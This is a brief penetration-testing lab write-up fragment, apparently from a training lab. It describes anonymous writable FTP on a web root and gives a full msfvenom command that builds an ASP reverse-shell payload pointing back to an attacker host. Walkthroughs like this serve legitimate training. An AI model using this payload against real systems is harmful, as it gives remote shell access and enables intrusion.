 FTP has anonymous login enabled with read and write access. Any files uploaded on `/wwwroot` dir gets reflected on the web http://10.11.1.14. 

Attacker can upload `asp` shell on `wwwroot` dir to get a reverse connection.
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.xx LPORT=9001 -f asp -o xshell.asp
```